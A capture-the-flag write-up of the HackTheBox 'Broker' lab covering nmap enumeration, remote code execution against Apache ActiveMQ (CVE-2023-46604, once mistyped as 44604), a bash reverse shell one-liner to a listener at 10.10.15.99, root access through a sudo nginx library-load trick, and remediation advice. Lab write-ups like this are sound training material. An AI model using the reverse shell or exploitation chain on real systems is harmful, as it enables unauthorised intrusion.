










# Broker (HackTheBox) Writeup

## Enumeration
#### Nmap Scan Results
```
┌──(root㉿shushan)-[/home/shushan/HTBLabs/Broker]
└─# nmap -p- -A -T4 10.129.230.87  
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-08 13:09 +0300
Nmap scan report for 10.129.230.87
Host is up (0.078s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
43961/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
```

Nmap results show port 22 open with SSH, web servers running on ports 80, 8161 and 61614, and ActiveMQ running on the system which is used by most of the remaining ports.

ActiveMQ OpenWire Transport 5.15.15 is vulnerable to a Remote Code Execution exploit ([CVE-2023-44604](https://nvd.nist.gov/vuln/detail/cve-2023-46604)), and a google search leads to a publicly available Proof-of-Concept on GitHub by [duck-sec](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell).

## Initial Access

By cloning the repository and running the *exploit.py* script, a pseudo-shell is obtained, running as the user *activemq*


Due to the shell being limited, it is wise to upgrade it to a more stable reverse shell, which could be done with the following bash reverse shell one-liner.
```
/bin/bash -c "bash -i >& /dev/tcp/10.10.15.99/443 0>&1"
```

Setting up a listener and running the bash reverse shell one liner, a connection is received through a netcat listener and a reverse shell is established

User flag is then found on the controlled user's home directory


## Privilege Escalation

The controlled user is allows to use sudo to run nginx with no password requirement


This can lead to elevation of privileges through Library Load, as documented in [GTFOBins](https://gtfobins.org/gtfobins/nginx/#library-load)


Executing the Payload command provided by GTFOBins, the required library file is created.


The module is then loaded to an exploit file


Once the exploit is ready, the sudo command is used which results in a root shell being spawned


The root flag is found on root's home directory

## Findings & Remediation

### Apache ActiveMQ Remote Code Execution (CVE-2023-46604)
#### Description
The target runs Apache ActiveMQ 5.15.15, which is vulnerable to CVE-2023-46604. The vulnerability exists in the OpenWire protocol implementation, where improper validation of serialized data allows an unauthenticated attacker to trigger the instantiation of arbitrary classes.

#### Impact
An unauthenticated remote attacker can exploit this vulnerability to execute arbitrary code on the target system with the privileges of the ActiveMQ service account.

#### Remediation
Upgrade Apache ActiveMQ to a patched version (5.15.16 or later for the 5.15.x branch). Restrict access to the OpenWire transport port to trusted systems only.

### Sudo Misconfiguration

#### Description
The activemq user is permitted to execute Nginx with elevated privileges through sudo without providing a password. 
#### Impact
An attacker with access to the activemq account can exploit this misconfiguration to execute arbitrary code as root, resulting in complete system compromise.
#### Remediation
Remove unnecessary Nginx sudo privileges from the activemq user. If elevated execution is required, enforce password authentication and restrict execution to administrator-controlled configurations and files.
